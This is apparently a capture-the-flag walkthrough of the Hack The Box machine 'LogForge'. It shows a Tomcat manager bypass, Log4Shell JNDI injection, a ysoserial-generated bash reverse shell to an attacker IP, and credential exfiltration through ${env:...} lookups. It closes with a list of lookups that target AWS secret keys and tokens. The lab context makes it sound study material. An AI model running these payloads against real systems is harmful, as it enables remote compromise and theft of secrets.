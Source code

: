 ```yaml
---
title: LogForge
author:
  name: Cotes Chung
  link: https://github.com/cotes2020
date: 2019-08-08 11:33:00 +0800
categories: [Blogging, Demo]
tags: [typography]
math: true
mermaid: true
---
```

# Enumeration
## NMAP
```
luka@kali:~/htb/logforge/nmap$ nmap -sC -sV -oA nmap 10.10.11.138
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-24 20:55 CET
Nmap scan report for 10.10.11.138
Host is up (0.033s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE    SERVICE    VERSION
21/tcp   filtered ftp
22/tcp   open     ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
80/tcp   open     http       Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Ultimate Hacking Championship
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp filtered http-proxy
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## WebPage on Port 80
![](/images/2022-01-11-19-22-43.png)

Going to page that doesn't exist shows, that there is difference regarding which server is running on port 80 (Apache or Apache Tomcat), which makes us asume that we're dealing with reverse proxy.
![](/images/2022-01-11-19-24-26.png)

# Exploitation
So from very basic enumeration let's start to exploitation.
First on the menu is breaking the parser logic. 
## Breaking parser logic on Apache / Tomcat
https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf

We'll use a neat trick to trick Reverse Proxy to not block us after opening `/manager/`. 
![](/images/2022-01-11-19-25-22.png)
We'll be able to bypass that and still end on Tomcat because tomcat doesn't treat that ::; as URL.
`http://10.10.11.138/idontexist/..;/manager/` will open the Login prompt (Login with `tomcat/tomcat`).
We should be able to login to Tomcat manager.
![](/images/2022-01-11-19-25-42.png)
## Log4J Exploit / CVE-2021/44882
There are a lot of good explanations on Log4J, so i'll won't be diving into that. I've done the PoC before which used simple JNDI payload, which loaded malicious class after LDAP Callback and gave reverse shell. 

Exploiting Log4J on this box is a little more tricky.
First of all, we need to get an execution, so let's try injecting simple payload into Tomcat.
`${jndi:ldap://10.10.14.18:1389/Ajej.class}`
![](/images/2022-01-11-19-25-57.png)
I ran `tcpdump` but nc listening on port 1389 would also do the job. 
There's callback so Application is vulnerable.
![](/images/2022-01-11-19-26-11.png)
Like suggested in the ippsec's video https://www.youtube.com/watch?v=XG14EstTgQ4, approach mention in the post https://twitter.com/marcioalm/status/1470361495405875200 will be used. In addition to that post, we'll not be using the regular Ysoserial, but Ysoserial-modified: https://github.com/pimps/ysoserial-modified
JNDI-Exploit-kit: https://github.com/pimps/JNDI-Exploit-Kit.git

### Creating payload
```
java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.18/4444 0>&1' > /home/luka/htb/logforge/rev
```

### Starting JNDI-Exploit-Kit
```
java -jar target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.18:1389 -P /home/luka/htb/logforge/rev
```
![](/images/2022-01-11-19-26-30.png)
### Reverse Shell
Put `${jndi:ldap://10.10.14.18:1389/rev}` again in the manager's field which gives us RCE and start it. Reverse shell should pop:
![](/images/2022-01-11-19-26-44.png)
If the payload wouldn't work, we could use also one of the following:
```
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://10.10.14.18:1099/s5ie1k
ldap://10.10.14.18:1389/s5ie1k
Target environment(Build in JDK 1.5 whose trustURLCodebase is true):
rmi://10.10.14.18:1099/kfaicp
ldap://10.10.14.18:1389/kfaicp
Target environment(Build in JDK - (BYPASS WITH GROOVY by @orangetw) whose trustURLCodebase is false and have Tomcat 8+ and Groovy in classpath):
rmi://10.10.14.18:1099/koifwi
Target environment(Build in JDK 1.6 whose trustURLCodebase is true):
rmi://10.10.14.18:1099/2blnim
ldap://10.10.14.18:1389/2blnim
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://10.10.14.18:1099/e6xn7g
ldap://10.10.14.18:1389/e6xn7g
Target environment(Build in JDK - (BYPASS WITH EL by @welk1n) whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://10.10.14.18:1099/urpkwl
```

# Privilege Escalation
## FTP Server (Java) running as root
```
root         769       1  0 Dec24 ?        00:00:00 /usr/sbin/cron -f
root         937     769  0 Dec24 ?        00:00:00  \_ /usr/sbin/CRON -f
root         943     937  0 Dec24 ?        00:00:00      \_ /bin/sh -c /root/run.sh
root         944     943  0 Dec24 ?        00:00:00          \_ /bin/bash /root/run.sh
root         945     944  0 Dec24 ?        00:00:59              \_ java -jar /root/ftpServer-1.0-SNAPSHOT-all.jar
```
![](/images/2022-01-11-19-27-09.png)
Unintended way to solve the box is to log into FTP on localhost with any user, and simple use dir and cat to read the flag etc.

Intended way (according to IppSec's video) is to exploit the vulnerable Log4J FTP Application. We can exploit Log4J simply by putting same string as we did above into the username, and we'd get a callback from an application. Because this app does not have any gadgets, we need to dig deeper into the application.
So download the ftp server application to Kali and open it with `jd-gui`.

You should see Log4J decompiled classes right away.
In `Worker.class` we can see user and the pass which will be passed from environment variable.
```java
  private String validUser = System.getenv("ftp_user");
  
  private String validPassword = System.getenv("ftp_password");
```

Both can be read using JNDI, so let's try that.
`${jndi:ldap://10.10.14.18:1389/${env:ftp_user}/${env:ftp_password}}`

Run `tcpdump -i tun0 -A port 1389`
Somewhere in the middle we should find, leaked username and password:
![](/images/2022-01-11-19-28-27.png)
FTP Login should work. We can either grab a flag only or download `.ssh/id_rsa`

### Exflitration of other Data
Exfiltration of other data is also possible. This is short list from here: https://therceman.medium.com/log4j-vulnerability-cheatsheet-66b7aeabc607
```
${hostName}  
${sys:user.name}  
${sys:user.home}  
${sys:user.dir}  
${sys:java.home}  
${sys:java.vendor}  
${sys:java.version}  
${sys:java.vendor.url}  
${sys:java.vm.version}  
${sys:java.vm.vendor}  
${sys:java.vm.name}  
${sys:os.name}  
${sys:os.arch}  
${sys:os.version}  
${env:JAVA_VERSION}  
${env:AWS_SECRET_ACCESS_KEY}  
${env:AWS_SESSION_TOKEN}  
${env:AWS_SHARED_CREDENTIALS_FILE}  
${env:AWS_WEB_IDENTITY_TOKEN_FILE}  
${env:AWS_PROFILE}  
${env:AWS_CONFIG_FILE}  
${env:AWS_ACCESS_KEY_ID}
```

For example:
`${jndi:ldap://10.10.14.18:1389/${hostName}/......./${sys:user.name} /......./${sys:user.dir}/......./${sys:os.version}}`
![](/images/2022-01-11-19-28-42.png)

